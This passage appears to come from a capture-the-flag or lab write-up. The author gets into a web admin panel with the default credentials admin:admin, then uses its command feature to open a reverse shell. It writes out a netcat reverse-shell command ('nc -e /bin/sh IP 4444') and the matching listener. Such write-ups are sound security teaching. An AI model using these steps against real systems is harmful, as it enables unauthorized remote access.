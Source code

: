 For execute commands you need a valid credentials login.

And I always on a login panel I trie the default credentials:<br>
`admin:admin`<br>

And after send the requests I got redirected to the main panel.

So YES, I got an access with **admin default credentials**, a very serious error by the admin.

![Main_Panel](../assets/2024-11-03/main_panel.png)

And Now I see the Commands tab, when I entry and I see what Can I do, so I got the Idea of obtain a reverse shell to my machine.

So firstly I go to [PentestMonkey Reverse Shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), on this site we have differents cheat sheet, but actually I look the Cheat Sheet of Reverse Shells.

After that I select the following command to establish a connection to my machine:

``` bash
nc -e /bin/sh IP 4444
```

But before we need to listen in the port 4444 on my machine:

``` bash
nc -nlvp 4444
```

After that I'm going to execute the command to establish connection with the remote server.

![Reverse Shell](../assets/2024-11-03/reverse_shell.png)
